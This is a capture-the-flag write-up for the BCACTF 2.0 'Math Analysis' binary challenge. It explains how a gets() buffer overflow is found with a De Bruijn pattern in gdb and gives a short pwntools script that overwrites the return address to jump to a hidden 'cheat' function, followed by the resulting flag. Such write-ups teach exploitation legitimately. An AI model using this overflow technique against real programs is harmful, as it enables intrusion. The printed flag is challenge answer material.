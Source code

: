 # BCACTF 2.0 – Math Analysis

* **Category:** Binex
* **Points:** 75
* **Author:** [Wesley V](https://github.com/retoxified)

## Challenge

> Congratulations, you've graduated from letters! Now, let's move on to numbers.
>
> From the BCA Course Catalog:
>
>>Analysis I includes linear and quadratic functions, polynomials, inequalities, functions, exponential and logarithmic functions, conic sections, and geometry.
>
> That's a lot of cool stuff! I think you'll have tons of fun learning about functions in this class!

## Solution

The challenge page provides us with a [binary](Backup/analysis) and the [C code](Backup/analysis.c) it was compiled from.

Looking at the code, it becomes clear that the `cheat` function is what we're after. And the vulnerability that lets us do that is yet another buffer overflow. The program uses [gets](https://man7.org/linux/man-pages/man3/gets.3.html) to read our input into a 50 byte buffer.

The easiest way to figure out after how many bytes the return address is overwritten is to make use of a [De Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence). So I load the binary up in gdb with the [peda](https://github.com/longld/peda) installed because it has some useful helpers.

One of these helpers is `pattern create [length]`, which generates a De Bruijn sequence for us. A length of 100 should do for our purposes;

![Image](Docs/math-analysis-1.jpg)

Running the program afterwards and entering this pattern as input results in a segfault on the return

![Image](Docs/math-analysis-2.jpg)

The address at the top of the stack is where our return address should be located. We can find the offset with `pattern offset [pattern]`

![Image](Docs/math-analysis-3.jpg)

Now that we figured out where to store the return address it's time to get the address of the `cheat` function. The intended solution was to read this from the output of the binary, because it prints the address to the console, but because the binary is not hardened with `PIE` we can simply hardcode the address, making the script very straightforward. Running the executable once reports `For example, here's a number: 4198998.` which is `0x401256` in hex.

```python
from pwn import *

#p = process('./analysis')
p = remote('bin.bcactf.com', 49158)

offs_cheat = 0x401256

p.sendline(b"A"*72 + p64(offs_cheat))

p.interactive()
```

which results in the following output:

```
It's math time, baby!
WOOO I love my numbers and functions and stuff!!
For example, here's a number: 4198998.
What do you think about that wonderful number?
> Numbeerrrrrs!
Anyways, we have a test coming up.
Be sure to study!
bcactf{challenges_are_just_functions_mapping_from_coffee_to_points}
```

So the flag for this challenge is:

`bcactf{challenges_are_just_functions_mapping_from_coffee_to_points}`